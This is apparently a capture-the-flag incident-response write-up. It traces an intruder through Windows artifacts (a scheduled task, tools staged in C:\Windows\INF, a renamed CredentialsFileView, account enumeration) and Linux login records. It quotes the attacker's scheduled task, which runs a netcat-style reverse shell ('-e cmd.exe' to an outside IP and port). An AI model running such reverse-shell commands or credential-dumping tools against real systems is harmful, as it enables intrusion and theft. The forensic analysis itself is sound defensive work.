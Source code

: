 # Analysis logs
- Using autospy to automatically parse logs and finding potential artifacts
-> check autoruns, schedule tasks, file, documents,... found a suspicious schedule task:
```bash 
<Actions Context="Author">
    <Exec>
      <Command>C:\Windows\INF\networkconn.exe</Command>
      <Arguments>-e cmd.exe 34.234.202.16 2424</Arguments>
    </Exec>
  </Actions>
  (this maybe a nc with -e cmd arg, so it should be a revshell)
```
- Also, found a user joining domain, this user can be used for lateral movement (***aarush***)
- In autospy, find all run programs belong to aarush user, found some other strange things (net.exe, net1.exe, netscan.exe). The crucial thing here is netscan.exe also in **C:\Windows\INF**. The I guess this has something more on this directory.
- Parse $MFT by MFTcmd by EricZimmerman, then find all pe file in **C:\Windows\INF**, it points me to 3 exe file:
+ netscan.exe
+ networkconn.exe
+ WinSysInfo.exe
-> Now, I can conclude this is directory that TA downloads tools used for recon -> Q2: C:\Windows\INF

- I have some gold in my hand, then move to the next part. Try to find when does any of files found above runs. But unfortunately, no 4688 or 1 event for those pe, no log from powershell indicates process created, no console history file exist, also parse Amcache and parse hive from aarush user, but found nothing. But instead, I see some 5379 events, which is account enumeration, something like Q5 mentions. an exe should be used for enum user, so I guess, this can be any of 3 files above. USN Journal ($UsnJrnl) log file contains all data about file operations. But $UsnJrnl is not here, parse $LogFile by [LogFileParser](https://github.com/jschicht/LogFileParser), then output will contains a file LogFile_lfUsnJrnl.csv, using grep to traverse through file:
```bash
cat LogFile_lfUsnJrnl.csv| grep -i '.exe' | grep -i 'rename'
cat LogFile_lfUsnJrnl.csv| grep -i '.exe' | grep -i 'rename' | grep -i 'winsys' -B3 -A3
V01tmp.log|50938528|2024-10-24 06:24:47.8408784|RENAME_NEW_NAME+CLOSE|107477|3|106075|2|archive+not_content_indexed|2|0|0x00000000|0
V0100009.log|50938872|2024-10-24 06:24:47.8877606|RENAME_NEW_NAME+DATA_OVERWRITE+CLOSE|108518|3|106075|2|archive+not_content_indexed|2|0|0x00000000|0
CredentialsFileView.exe|51001432|2024-10-24 06:35:24.0526100|RENAME_OLD_NAME|29878|2|29877|2|archive|2|0|0x00000000|0
WinSysView.exe|51001544|2024-10-24 06:35:24.0526100|RENAME_NEW_NAME|29878|2|29877|2|archive|2|0|0x00000000|0
WinSysView.exe|51001632|2024-10-24 06:35:24.0526100|RENAME_NEW_NAME+CLOSE|29878|2|29877|2|archive|2|0|0x00000000|0
HxCommAlwaysOnLog.etl|51046256|2024-10-24 06:48:02.5480288|RENAME_OLD_NAME|429|3|107150|2|archive+not_content_indexed|2|0|0x00000000|0
HxCommAlwaysOnLog_Old.etl|51046360|2024-10-24 06:48:02.5480288|RENAME_NEW_NAME|429|3|107150|2|archive+not_content_indexed|2|0|0x00000000|0
HxCommAlwaysOnLog_Old.etl|51046472|2024-10-24 06:48:02.5480288|RENAME_NEW_NAME+CLOSE|429|3|107150|2|archive+not_content_indexed|2|0|0x00000000|0

```
- see, WinSysView orgiginal name is CredentialsFileView, then I can sure \INF dir belongs to attacker
Q5: CredentialsFileView
- Get stuck in this, so I try to find evils in linux log (DB machine). Walk through the log, I found something about login session:
```bash
sysadmin pts/0        Thu Oct 24 07:42:57 2024   still logged in                       10.10.0.1
sdb-aroy pts/0        Thu Oct 24 06:42:52 2024 - Thu Oct 24 07:02:48 2024  (00:19)     10.10.2.55
sysadmin pts/0        Fri Oct 11 11:52:09 2024 - Fri Oct 11 12:08:31 2024  (00:16)     10.10.0.1
sysadmin tty1         Wed Oct  9 17:22:32 2024   gone - no logout                      0.0.0.0
```